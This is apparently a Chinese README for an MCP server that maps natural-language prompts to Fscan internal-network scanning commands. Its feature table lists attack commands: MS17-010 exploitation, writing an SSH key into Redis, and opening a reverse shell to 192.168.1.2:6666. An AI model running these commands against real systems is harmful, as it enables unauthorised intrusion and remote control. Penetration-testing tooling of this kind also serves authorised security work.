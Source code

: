 # Fscan MCP Server 模板
## 项目简介
Fscan MCP Server 是一个基于 **Model Context Protocol (MCP)** 的轻量级服务，旨在通过自然语言指令快速调用 **Fscan** 内网安全扫描工具。用户只需输入简单的中文提示（如 “帮我扫下 127.0.0.1 端口”），即可自动触发预设的 Fscan 命令，实现扫描任务的自动化执行。

### 核心功能
**自然语言触发**：支持通过中文指令直接调用 Fscan 扫描（如 “扫描 192.168.1.1/24 网段”）。
**内置命令模板**：预定义常见扫描场景（端口扫描、漏洞检测、服务爆破等），可快速扩展新指令。
**MCP 协议集成**：通过标准化协议与 MCP 客户端（如 Cursor、Claude Desktop）无缝对接，支持动态发现和安全权限控制。

## 安装指南
### 环境要求
Python 3.8+
MCP 客户端（如 [Cursor](https://www.cursor.so/) 或 [万径千机](https://github.com/xxx/wanjingqianji)）

### 步骤 1：安装依赖

```
pip install mcp==1.0.0
```

### 步骤 2：配置 MCP 客户端

以 **Cursor IDE** 为例：

创建配置文件 `mcp.config.json`：

```
{

&#x20; "mcpServers": {

&#x20;   "fscan-mcp-server": {

&#x20;     "name": "Fscan 内网安全扫描工具",

&#x20;     "command": "uv",

&#x20;     "args": \[

&#x20;       "--directory",

&#x20;       "\${WORKSPACE}/fscan\_MCP",

&#x20;       "run",

&#x20;       "--with",

&#x20;       "mcp",

&#x20;       "mcp",

&#x20;       "run",

&#x20;       "fscan\_mcp\_server.py"

&#x20;     ],

&#x20;     "disabled": false,

&#x20;     "autoApprove": \[]

&#x20;   }

&#x20; }

}
```
将配置文件导入 MCP 客户端（路径需根据实际项目调整）。

## 使用示例

### 触发指令

```
用户输入：帮我扫下127.0.0.1端口

模型调用：fscan.exe -h 127.0.0.1 -p 1-65535 -nopoc
```

### 扩展指令模板

在 `commands.json` 中添加新规则：



```
{

&#x20; "触发词": "扫描C段",

&#x20; "参数": {

&#x20;   "target": "192.168.1.1/24",

&#x20;   "ports": "1-1000",

&#x20;   "modules": "all"

&#x20; },

&#x20; "命令": "fscan.exe -h {target} -p {ports} -m {modules}"

}
```
## Fscan 功能支持

| 功能模块      | 指令示例                   | 对应 Fscan 命令                                     |
| --------- | ---------------------- | ----------------------------------------------- |
| 端口扫描      | 扫描 192.168.1.1 的 80 端口 | `fscan.exe -h 192.168.1.1 -p 80`                |
| 漏洞检测      | 检测 MS17-010 漏洞         | `fscan.exe -h 192.168.1.1 -m ms17010`           |
| Redis 写公钥 | 向 Redis 服务器写入 SSH 公钥   | `fscan.exe -h 192.168.1.1 -rf id_rsa.pub`       |
| 反弹 Shell  | 计划任务反弹 Shell           | `fscan.exe -h 192.168.1.1 -rs 192.168.1.2:6666` |

## 项目结构
```
fscan\_MCP/

├── fscan\_mcp\_server.py  # MCP 服务入口

├── commands.json       # 指令模板配置

└── README.md           # 文档
```

## 贡献指南
**添加新指令**：在 `commands.json` 中定义触发词和对应命令。
**优化逻辑**：修改 `fscan_mcp_server.py` 中的参数解析或响应处理。
**文档完善**：补充使用案例或配置说明。
## 许可证
本项目采用 **MIT 许可证**，详情见 [LICENSE](LICENSE)。

## 参考资料
[Fscan 官方文档](https://github.com/shadow1ng/fscan)
[MCP 协议规范](https://github.com/anthropic/mcp)
[MCP 客户端配置指南](https://www.cursor.so/docs/guides/mcp)
通过本模板，您可以快速构建自定义的 AI 驱动安全扫描工具链，实现从自然语言指令到复杂渗透测试任务的自动化执行。
